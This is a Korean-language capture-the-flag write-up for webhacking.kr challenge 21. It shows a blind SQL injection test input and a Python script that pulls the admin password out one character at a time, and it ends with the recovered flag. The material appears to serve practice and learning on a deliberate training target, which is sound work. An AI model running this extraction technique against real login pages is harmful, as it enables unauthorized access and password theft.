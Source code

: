 #21
==

이번 문제는 blind sql 문제라는 것을 들어가자마자 알 수 있다.

![](https://postfiles.pstatic.net/MjAyMDAxMTdfNzYg/MDAxNTc5MjUzNDg4MTg3.Wy__Ix16715l6yop0I6NW3okfiegobfrxoR_fAIyEBMg.1JVyv9riTB_QHJ5e34U-G2yqz_tXkPhXqGMtqGAMcJEg.JPEG.rlaeoghks823/K-055.jpg?type=w773)

id와 pw가 지정된 값이 아니면 `Result : login fail`가 나온다.

id 값에 `admin' and 1=1#`을 넣어봤더니 다음과 같은 결과값이 나왔다.  
`Result : wrong password`

따라서 이 결과 값을 이용하면 pw를 알아낼 수 있다. 

파이썬 코드를 찾은 다음 아래와 같이 21번 문제에 맞게 수정해주었다.

```
import requests

answer= ""

for i in range(1,37):
    for j in range(32,127):
        url = "https://webhacking.kr/challenge/bonus-1/index.php?id=admin' and ascii(substr(pw,%d,1)) = %d-- &pw=1" %(i,j)
        cookies={
            'PHPSESSID' : 'mmfd82ft16qtijkgfutd4h2cmd'
        }
        res = requests.get(url,cookies=cookies)
        if res.text.find('wrong password') != -1:
            answer=answer+chr(j)
            print(answer)
            break
        else:
            continue
            
print('정답')
print(answer)
```

파이썬 코드를 해석해보면 id 값에 pw를 1칸씩 잘라서 아스키코드값 32부터 127까지 다 비교해본다.  
만약 참값이 나오면 결과는 `Result : wrong password`가 나오게 되므로 이 값이 나오는 코드값을 문자로 변환해 answer에 저장해준다.

그리고 마지막에 answer를 출력해주는 간단한 코드이다.

이런식으로 간단하게 pw값을 구해보면 pw값이 `there_is_no_rest_for_the_white_angel`임을 알 수 있다.
